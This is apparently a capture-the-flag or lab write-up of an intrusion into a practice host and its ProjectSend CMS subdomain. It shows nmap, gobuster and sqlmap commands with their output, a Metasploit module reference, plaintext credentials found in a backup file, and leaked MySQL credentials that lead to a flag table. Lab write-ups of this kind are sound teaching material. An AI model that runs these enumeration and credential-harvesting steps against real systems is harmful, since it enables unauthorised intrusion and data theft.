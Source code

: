 # 172.16.64.81
```
Nmap scan report for 172.16.64.81
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:1e:bf:d0:44:0f:bc:c8:64:bd:ac:16:09:79:ca:a8 (RSA)
|   256 df:60:fc:fc:db:4b:be:b6:3e:7a:4e:84:4c:a1:57:7d (ECDSA)
|_  256 ce:8c:fe:bd:76:77:8e:bd:c9:b8:8e:dc:66:b8:80:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We immediately see this is just a default Apache install page so don't waste time. Gobuster it. 
```
gobuster dir -u 172.16.64.81 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.64.81
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:07:05 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 200) [Size: 11321]
/webapp               (Status: 200) [Size: 6358] 
```

`/default` is still apache so let's check `/webapp`
![webapp](webapp.png)

trying `admin:admin` gives us an error page with some weird HTML rendering, possible SQLi?
![error](error.png)

Looking at the URL we have a possibility:  
`http://172.16.64.81/webapp/process.php?do=login&username=admin&password=admin&language=en` so let's fire up sqlmap and try to get some injection
```
sqlmap -u http://172.16.64.81/webapp/process.php?do=login
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:13:47 /2021-08-18/

[15:13:48] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=33iuua47b7t...m4rh88oiq2'). Do you want to use those [Y/n] y
[15:13:49] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:13:49] [INFO] testing if the target URL content is stable
[15:13:49] [INFO] target URL content is stable
[15:13:49] [INFO] testing if GET parameter 'do' is dynamic
got a 302 redirect to 'http://cms.foocorp.io/index.php'. Do you want to follow? [Y/n] n
```

Interesting, it tried to redirect to a subdomain, let's add this to our `/etc/hosts` file and go to it. 
![cms](cms.png)

Running sqlmap on this domain yields no SQLi but searching google for ProjectSend r1053 we see a [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/projectsend_upload_exec/) article for a metasploit module. 


Running this however failed because of a missing `process-upload.php` file -- let's come back later after we hopefully find credentials

```
gobuster dir -u http://cms.foocorp.io/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cms.foocorp.io/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:26:01 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 200) [Size: 3225]
/templates            (Status: 200) [Size: 1755]
/assets               (Status: 200) [Size: 1149]
/upload               (Status: 200) [Size: 935] 
/css                  (Status: 200) [Size: 2367]
/includes             (Status: 200) [Size: 7711]
/install              (Status: 200) [Size: 3017]
/lang                 (Status: 200) [Size: 1327]
/emails               (Status: 200) [Size: 3083]
Progress: 10324 / 87665 (11.78%)               [ERROR] 2021/08/18 15:28:17 [!] Get "http://cms.foocorp.io/vignere": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/08/18 15:28:18 [!] Get "http://cms.foocorp.io/cast-256": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 61801 / 87665 (70.50%)               ^C
[!] Keyboard interrupt detected, terminating.
                                                
===============================================================
2021/08/18 15:37:24 Finished
===============================================================
```

Turning on burpsuite proxy we can start going through the websites directory structure, ultimately we find `/img/custom/thumbs/` which has a `users.bak' file. and contains two new username:password pairs  
```
john1:password123
peter:youdonotguessthatone5
```

![index](index.png)

We can try these at the cms login. The username john1 works, however we are taken to a 500 page. If we check burp proxy, we are given some mysql credentials in the response header  
![header_credentials](header_credentials.png)

Connecting to this via mysql and enumarting we will see a table named `flag` within the `cmsbase` database. 

![flag_table](flag_table.png)